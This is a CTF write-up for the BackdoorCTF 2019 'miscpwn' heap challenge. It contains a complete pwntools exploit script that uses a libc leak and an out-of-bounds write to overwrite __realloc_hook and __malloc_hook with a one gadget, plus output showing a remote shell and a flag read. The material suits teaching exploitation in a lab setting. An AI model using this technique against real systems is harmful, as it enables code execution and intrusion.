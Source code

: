 ```yaml
---
layout: post
title:  "BackdoorCTF 2019: miscpwn"
date:   2019-10-27 23:30:02 +0800
categories: pwn
tags: BackdoorCTF
---
```


I played this CTF with 0x1 and got 9th place.

This was almost the exact same challenge as HITCON CTF 2019 Qualifer's Trick or Treat. Only 5 people solved it including me. I am not sure why..

### Challenge

**Points**: 405

>Trick-or-treat Revenge.
>
>[http://backdoor.static.beast.sdslabs.co/static/trick-repeat/miscpwn](http://backdoor.static.beast.sdslabs.co/static/trick-repeat/miscpwn)
>
>[http://backdoor.static.beast.sdslabs.co/static/trick-repeat/libc.so.6](http://backdoor.static.beast.sdslabs.co/static/trick-repeat/libc.so.6)
>
>`nc 51.158.118.84 17004`
>
>Flag format: CTF{...}
>
>Created by: [Nipun Gupta](https://backdoor.sdslabs.co/users/fs0ciety)
>
>No. of Correct Submissions: 5

### Solution

I won't go into much detail about this challenge since you can just read my writeup for Trick or Treat [here](/2019-10-14-hitconctf-2019-trick-or-treat/). 

The idea with this one is that you can malloc a chunk of size 10000000 and get the chunk mmapped and aligned to libc, but you are only allowed to perform one out of bounds relative write. After the write, there is a call to `malloc(0xa)` followed by `exit(0)`. Therefore, we have no choice but to overwrite `__malloc_hook`, however none of the normal one gadgets worked.

The way I went about it was to realize that right before `__malloc_hook` is `__realloc_hook`. The binary lets us write 0x10 bytes, so I solved it by first overwriting `__realloc_hook` to a working one gadget, and then overwrote `__malloc_hook` to `realloc+14`. This made it so that the constraints for one of the gadgets was suddenly met.

My exploit script is shown below:
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./miscpwn')
libc = ELF('./libc.so.6')

HOST, PORT = '51.158.118.84', 17004

def start():
	if not args.REMOTE:
		print "LOCAL PROCESS"
		return process('./miscpwn')
	else:
		print "REMOTE PROCESS"
		return remote(HOST, PORT)

def get_base_address(proc):
	return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(p)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

context.terminal = ['tmux', 'new-window']
p = start()
if args.GDB:
	debug([0x13b9])

# Malloc a chunk such that it gets mmapped aligned to Libc
p.recv()
p.sendline('10000000')

# Remote binary behaves differently idek
if args.REMOTE:
	p.recvline()

# Calculate addresses required
leak = int(p.recvline().strip(), 16)
libc.address = leak + 0x989ff0
realloc_hook = libc.sym['__realloc_hook']
hook_offset = realloc_hook - leak

log.info('Chunk: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('__realloc_hook: ' + hex(realloc_hook))
log.info('Offset: ' + hex(hook_offset))

# Set the offset correctly so we reach __realloc_hook
p.recv()
p.sendline(hex(hook_offset))

# Overwrite __realloc_hook with one gadget, overwrite __malloc_hook with realloc+14
p.recv()
p.send(p64(libc.address + 0x501e3) + p64(libc.sym['realloc'] + 14))

p.interactive()
```
```sh
vagrant@ubuntu1810:/ctf/practice/backdoorctf/miscpwn$ ./exploit.py REMOTE
[*] '/ctf/practice/backdoorctf/miscpwn/miscpwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/practice/backdoorctf/miscpwn/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to 51.158.118.84 on port 17004: Done
[*] Chunk: 0x7f47cefef010
[*] Libc base: 0x7f47cf979000
[*] __realloc_hook: 0x7f47cfb5dc28
[*] Offset: 0xb6ec18
[*] Switching to interactive mode

$ ls
Dockerfile
beast.toml
flag.txt
ld-2.28.so
libc.so.6
miscpwn
miscpwn.c
post-build.sh
public
setup.sh
$ cat flag.txt
CTF{REDACTEDREDACTEDREDACTED}
$  
```